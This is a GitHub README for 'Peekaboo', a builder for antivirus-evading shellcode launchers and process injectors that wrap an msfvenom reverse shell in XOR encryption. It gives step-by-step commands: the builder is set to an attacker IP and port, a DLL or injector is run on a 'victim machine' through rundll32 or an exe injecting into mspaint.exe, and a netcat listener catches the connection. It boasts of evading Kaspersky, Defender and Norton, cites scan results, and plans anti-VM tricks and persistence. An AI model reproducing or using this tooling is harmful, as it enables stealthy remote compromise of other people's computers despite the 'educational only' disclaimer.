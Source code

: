 # Peekaboo

Simple undetectable shellcode and code injector launcher example. Inspired by RTO malware development course.

## Main logic

XOR encryption and decryption for functions call and main payload - `msfvenom` reverse shell as example.

## Usage
## 1. DLL
### on attacker machine

check your IP:
```bash
ip a
```

![attacker machine IP](./screenshots/2022-04-24_13-05.png?raw=true)

run python script with flags:
```bash
python3 peekaboo.py -l 192.168.56.1 -p 4444 --build 1
```

![run python script](./screenshots/2022-04-24_13-08.png?raw=true)

### then on victim machine (windows 10 x64):
run on powershell or cmd promt:
```cmd
rundll32 .\peekaboo.dll, lCiSdbvIAaeZLHFfkUhEcbOy
```

![run on victim machine](./screenshots/2022-04-24_13-11.png?raw=true)

### check on attacker machine:
check your netcat listener:

![check netcat listener](./screenshots/2022-04-24_13-12.png?raw=true)

![check IP address](./screenshots/2022-04-24_13-13.png?raw=true)

## 2.Injector
### on attacker machine:
check attacker ip:
```bash
ip a
```

![check IP](./screenshots/2022-04-24_13-05.png?raw=true)

run python script on linux (for example process `mspaint.exe`):
```bash
python3 peekaboo.py -l 192.168.56.1 -p 4444 -e mspaint.exe --build 2
```

![run python script](./screenshots/2022-04-24_13-18.png?raw=true)

### then on victim machine run (windows 10 x64):
```cmd
.\peekaboo.exe
```

or click (if `-m windows` param)

![run on victim machine](./screenshots/2022-04-24_13-20.png?raw=true)

### check on attacker machine:
check your netcat listener:

![check netcat listener](./screenshots/2022-04-24_13-22.png?raw=true)

## 3. NT API injector
run python script on linux (for example process `mspaint.exe`):
```bash
python3 peekaboo.py -l 192.168.56.1 -p 4444 -e mspaint.exe -m console --build 3
```

![enc and compile nt](./screenshots/2022-04-24_13-25.png?raw=true)

### then on victim machine (windows 10 x64):
```cmd
.\peekaboo.exe
```

![run malware](./screenshots/2022-04-24_13-27.png?raw=true)    

![run malware](./screenshots/2022-04-24_13-29.png?raw=true)

## Issues.
Tested on:
1. Attacker machines: Kali linux 2020.1, Windows 10 x64
2. Victim machine: Windows 7 x64, Windows 10 x64
3. Payload: windows x64 reverse shell from msfvenom
4. AV Engines: Kaspersky, Windows Defender, Norton Antivirus Plus

## virus total result:
02 september 2021

![virustotal](./screenshots/11.png?raw=true)

[https://www.virustotal.com/gui/file/c930b9aeab693d36c68e7bcf6353c7515b8fffc8f9a9233e49e90da49ab5d470/detection](https://www.virustotal.com/gui/file/c930b9aeab693d36c68e7bcf6353c7515b8fffc8f9a9233e49e90da49ab5d470/detection)

30 december 2021 (NT API injector)    

![virtustotal 2](./screenshots/16.png?raw=true)    

[https://www.virustotal.com/gui/file/743f50e92c6ef48d6514e0ce2a255165f83afb1ae66deefd68dac50d80748e55/detection](https://www.virustotal.com/gui/file/743f50e92c6ef48d6514e0ce2a255165f83afb1ae66deefd68dac50d80748e55/detection)    

## antiscan.me result:

11 january 2022 (NT API injector)    

![antiscan](./screenshots/antiscan.png?raw=true)    

[https://antiscan.me/scan/new/result?id=rQVfQhoFYgH9](https://antiscan.me/scan/new/result?id=rQVfQhoFYgH9)    

## TODO
- [x] Compile injector in Kali linux
- [x] XOR + AES [aes branch](https://github.com/cocomelonc/peekaboo/tree/aes)
- [x] Calling Windows API functions by hash names
- [x] Find Kernel32 base via asm style
- [x] One python builder
- [ ] Anti-VM tricks
- [ ] Persistence via Windows Registry run keys
- [ ] Replace msfvenom shell to donut payload???

## Attention
This tool is a Proof of Concept and is for Educational Purposes Only!!! Author takes no responsibility of any damage you cause

## License
[MIT](https://choosealicense.com/licenses/mit/)
